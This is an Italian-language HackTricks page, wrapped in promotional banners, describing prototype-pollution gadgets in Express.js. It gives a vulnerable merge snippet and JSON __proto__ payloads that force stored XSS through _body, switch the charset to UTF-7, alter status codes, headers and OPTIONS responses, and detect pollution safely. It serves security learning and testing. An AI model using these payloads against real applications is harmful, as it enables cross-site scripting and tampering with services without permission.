 # Gadget di Prototype Pollution di Express

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team AWS di HackTricks)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## WhiteIntel

<figure><img src=".gitbook/assets/image (1224).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) è un motore di ricerca alimentato dal **dark web** che offre funzionalità **gratuite** per verificare se un'azienda o i suoi clienti sono stati **compromessi** da **malware ruba-informazioni**.

Il loro obiettivo principale di WhiteIntel è combattere i takeover degli account e gli attacchi ransomware derivanti da malware che rubano informazioni.

Puoi visitare il loro sito web e provare il loro motore **gratuitamente** su:

{% embed url="https://whiteintel.io" %}

---

## Servire risposte XSS

**Per ulteriori dettagli [consulta la ricerca originale](https://portswigger.net/research/server-side-prototype-pollution)**

### Cambiare il tipo di contenuto JSON in HTML

In un'app Express che utilizza una **risposta di tipo contenuto JSON** e riflette un JSON:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
In questi casi XSS non è normalmente possibile con un tipo di contenuto JSON. Tuttavia, con la pollution del prototipo possiamo **confondere Express per servire una risposta HTML.** Questa vulnerabilità si basa sull'applicazione che utilizza **`res.send(obj)`** e utilizza il parser del corpo con il tipo di contenuto application/json.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
Attraverso la **`body`** e le proprietà **`_body`** è possibile causare a **Express di servire il tipo di contenuto HTML** e riflettere la proprietà `_body`, risultando in XSS memorizzato.

### Rendere UTF7

È possibile fare in modo che express **renda il contenuto UTF-7 con**:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Tecniche di scansione sicure

### Spazi JSON

Il seguente PP farà sì che gli attributi all'interno di un JSON abbiano uno spazio extra che non comprometterà la funzionalità:
```json
{"__proto__":{"json spaces": " "}}
```
Quindi un JSON riflesso apparirà come:
```json
{"foo":  "bar"} -- Note the extra space
```
### Intestazioni Esposte

Il seguente gadget PP farà sì che il server invii l'intestazione HTTP: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
È necessario che il **modulo CORS sia installato**

### **Metodo OPTIONS**

Con il seguente payload, è possibile **nascondere un metodo da una risposta OPTIONS**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Stato**

È possibile cambiare il **codice di stato restituito** utilizzando il seguente payload PP:
```json
{"__proto__":{"status":510}}
```
### Errore

Quando si assegna un prototipo con un tipo primitivo come una stringa, si produce una **operazione no-op poiché il prototipo deve essere un oggetto**. Se si tenta di assegnare un oggetto prototipo a `Object.prototype` stesso, questo genererà un'**eccezione**. Possiamo utilizzare questi due comportamenti per **rilevare se la prototipizzazione è stata effettuata con successo**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Valore Riflesso

Quando un'applicazione include un oggetto nella sua risposta, creare un attributo con un **nome insolito insieme a `__proto__`** può essere illuminante. In particolare, se viene restituito **solo l'attributo insolito** nella risposta, ciò potrebbe indicare la vulnerabilità dell'applicazione:
```json
{"unusualName":"value","__proto__":"test"}
```
Inoltre, in scenari in cui viene utilizzata una libreria come Lodash, impostare una proprietà sia tramite inquinamento del prototipo (PP) che direttamente all'interno dell'oggetto offre un altro approccio diagnostico. Se tale proprietà viene omessa dalla risposta, ciò suggerisce che Lodash sta verificando l'esistenza della proprietà nell'oggetto di destinazione prima di effettuare la fusione:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Varie

### Consentire i Punti

C'è un'opzione in Express che ti permette di **creare oggetti dai parametri della stringa di query**.\
Potresti sicuramente usarla in una catena di bug per sfruttare una **vulnerabilità di inquinamento del prototipo**.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` crea un oggetto in Node.**

## Riferimenti

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


## WhiteIntel

<figure><img src=".gitbook/assets/image (1224).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) è un motore di ricerca alimentato dal **dark web** che offre funzionalità **gratuite** per verificare se un'azienda o i suoi clienti sono stati **compromessi** da **malware ruba-informazioni**.

Il loro obiettivo principale è contrastare le violazioni degli account e gli attacchi ransomware derivanti da malware che rubano informazioni.

Puoi visitare il loro sito web e provare il loro motore gratuitamente su:

{% embed url="https://whiteintel.io" %}

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
